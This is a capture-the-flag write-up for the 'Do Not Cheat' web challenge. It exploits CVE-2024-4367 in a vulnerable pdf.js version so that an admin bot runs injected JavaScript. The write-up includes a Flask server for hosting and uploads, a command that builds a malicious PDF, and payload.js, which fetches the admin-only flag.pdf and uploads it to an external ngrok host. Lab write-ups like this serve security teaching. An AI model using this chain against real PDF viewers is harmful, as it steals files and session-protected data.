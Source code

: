 ## Do Not Cheat


> I've prepared a set of useful cheatsheets. This might be helpful for any hacker.
> 🔗 https://do-not-cheat-bb7d7982d597.1753ctf.com


In this chall given a website with some cheatsheets, looking the source code from browser it is evident there exist a `flag.pdf` file containing real flag but it's access is not given to normal user, only admin can view the `flag.pdf` file. 

Also the `/report` route exist where we can pass any pdf as query parameter to get it viewed by the admin...

Like this - `https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=public/BLUE.pdf`

Hmm, so admin is a bot! (common in CTF challs)

Now if we look console while testing the web app, we can see logs that tells us the pdf-viewer used by the web app is `pdf-dist version 4.1.392` which is severely vulnerable to arbitary code execution (CVE-2024-4367). 

So if we can pass a vulnerable pdf to `/report` route we could solve this challenge. 

Let's get into it -

From the [POC of CVE-2024-4367](https://github.com/LOURC0D3/CVE-2024-4367-PoC) we can embed our malicious script to the a pdf.

First we'll create a flask http server for our utility with this code -

```python

from flask import Flask, send_file, request, jsonify
from flask_cors import CORS, cross_origin
import os

app = Flask(__name__)
cors = CORS(app)

UPLOAD_FOLDER = 'uploads'
if not os.path.exists(UPLOAD_FOLDER):
    os.makedirs(UPLOAD_FOLDER)

@app.route('/')
@cross_origin()
def poc_pdf():
    return send_file("poc.pdf")

@app.route('/payload')
@cross_origin()
def payload():
    return send_file("payload.js")

@app.route('/upload', methods=['POST'])
@cross_origin()
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400
    
    file = request.files['file']
    
    if file.filename == '':
        return jsonify({'error': 'No file selected'}), 400
    
    if file:
        filename = os.path.join(UPLOAD_FOLDER, file.filename)
        file.save(filename)
        return jsonify({
            'ok': True,
            'message': 'File uploaded successfully',
            'filename': file.filename
        }), 200

if __name__ == '__main__':
    app.run(debug=True)
```

Here we have three endpoints
- `/` - gives the malicious pdf, we'll create it later
- `/payload` - gives payload.js file which is a malicious script
- `/upload` - basic file upload utility

Firstly, start the web server.

To host this flask server we'll use `ngrok`, which uses port tunelling to make the local server accessible from anywhere on internet.

My server is running on the domain `45a8-122-162-147-205.ngrok-free.app`, yours will be different so run commands accordingly.

Let's create the malicious pdf by following command -

```bash
$ python3 CVE-2024-4367.py "var s=document.createElement('script');s.src='https://45a8-122-162-147-205.ngrok-free.app/payload';document.body.append(s)"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```

This will create our malicious `poc.pdf`

To generate the malicious pdf we'll be taking help from the [POC of CVE-2024-4367](https://github.com/LOURC0D3/CVE-2024-4367-PoC) as mentioned above

The code injected in pdf quiet simple, it will load the javascript file `payload.js` availabe at `/payload` endpoint of our utility web server and will execute it

Now for `payload.js` we have -

```javascript
(async () => {
    const res = await fetch("/app/admin/flag.pdf", { credentials: 'include' });
    const blob = await res.blob();

    const formData = new FormData();

    formData.append('file', new File([blob], 'flag.pdf', { type: 'application/pdf' }));

    await fetch('https://45a8-122-162-147-205.ngrok-free.app/upload', {
        method: 'POST',
        body: formData
    });
})();
```

Simple function which just fetch the flag.pdf data and upload the pdf to `/upload` endpoint of our utility web server

Now if i'll send our utility web server url to admin using `/report` endpoint on website we'll get our flag uploaded inside the `/uploads` folder, ~ crazyyy ~

just go to `https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=https://45a8-122-162-147-205.ngrok-free.app` and you will get the flag paved on your machine


